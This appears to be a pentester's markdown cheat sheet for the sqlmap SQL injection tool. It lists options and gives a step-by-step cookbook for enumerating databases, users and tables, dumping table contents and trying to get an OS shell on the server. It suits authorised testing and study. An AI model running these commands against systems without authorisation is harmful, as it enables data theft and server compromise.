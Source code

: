 # sqlmap

## Overview

SQLMap is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006 and is still maintained today.

## Installation

	sudo apt install sqlmap
or
	git clone https://github.com/sqlmapproject/sqlmap.git


## Command Options

sqlmap

	-h, --help			Show basic help message and exit
	-hh			Show advanced help message and exit
	-u URL, --url=URL			Target URL
	-p <injection_point>		Selects a specific injection point
	-o - Chose all optimizations available

	-D <database_name>		Scans for a specific database
	-T <table_name>		Scans for a specific table

	--threads <threads>		Max of 10 threads
	--batch			Used for skipping any required user-input, by automatically choosing using the default option
	--dump			Dumps DBMS database table entries
	--baner		Retrieves dbms banner
	--dbms <dbms_name>		Use only sqli for a specifc dbms
	--os-shell		Try to get a remote shell on the server
	--is-dba		Check if we can get db admin priveledges
	--flush-session	Deletes the records for the current session scan and starts from the beginning
	--crawl <depth>	Crawl the website starting from the target URL
	--os-shell		Tries creating a shell on the server


## Usage Examples

sqlmap -u <address> --dump --batch
sqlmap -r <request_file_path> --dump --batch

if we dont find anything increase risk and level

sqlmap -r <request_file_path> --dump --batch --risk 3

sqlmap -r <request_file_path> --dump --batch --level 5

sqlmap -r <request_file_path> --dump --batch --level 5 --risk 3

Injection on a specific field

sqlmap -r <request_file_path> --batch -p <injection_field_name>

## Cookbook

Start by doing a simple scan without the Time technique:

	sqlmap -r <request> --technique "BEUSQ" --banner --dbs --current-user --current-db --users --roles
	Don't use --batch on the first scan
	Don't use --threads on the first scan

Try creating a shell after finding an injection

	sqlmap -r <request> --os-shell

Start by doing a basic scan of the dbms, to get some basic info

	sqlmap -r <> --batch --banner

Then add the dbms flag, and enum the dbs, users and roles

	sqlmap -r <> --batch --dbms=<dbms_name> -dbs --current-user --current-db --users --roles --threads 10

Then pick a db and enum the tables

	sqlmap -r <> --batch --dbms=<> -D <db_name> --tables

## More Information

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
https://github.com/sqlmapproject/sqlmap/wiki/Usage